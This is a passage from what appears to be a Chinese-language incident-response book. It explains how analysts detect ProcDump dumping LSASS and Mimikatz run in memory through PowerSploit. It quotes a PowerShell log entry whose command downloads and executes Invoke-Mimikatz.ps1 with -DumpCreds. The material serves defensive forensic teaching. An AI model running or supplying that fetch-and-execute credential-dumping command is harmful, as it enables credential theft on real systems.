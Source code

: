 在输出中，我们可以看到威胁行为者对 LSASS 进程执行了 ProcDump，并将输出文件放置在`C:\Windows\Temp`目录中，准备后续窃取。这是增强系统日志记录和检测 ProcDump 使用的一个很好的应用场景。

## Mimikatz

在*第十四章*中，我们研究了工具 Mimikatz。Mimikatz 是威胁行为者的另一个常用工具，因为它易于使用，并且已经集成在各种后期利用框架中。当集成到如 Cobalt Strike 或 PowerSploit 等工具中时，该工具可以在内存中运行，而不需要将任何文件写入磁盘。这使得寻找痕迹证据变得困难，但并非不可能。

例如，GitHub 上可用的利用工具 PowerSploit（网址：[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)）有一个名为 `Invoke-Mimikatz` 的模块。虽然该工具避免了将二进制文件写入磁盘并执行，但 PowerShell 日志中仍有痕迹，特别是事件 403，能够显示命令执行情况，如下图所示：

![图 15.19 – Mimikatz PowerSploit 条目](img/B18571_15_019.jpg)

图 15.19 – Mimikatz PowerSploit 条目

日志条目中包含以下关键数据点：

```
HostApplication=powershell.exe & {IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds}
```

这为分析师提供了凭证哈希已被访问的确凿证据。在发现使用 Mimikatz 或 ProcDump 的情况下，最佳实践是认为该系统上的凭证或 Kerberos 认证机制已经被攻破。因此，建议按照*第十六章*中讨论的内容，进行密码重置。
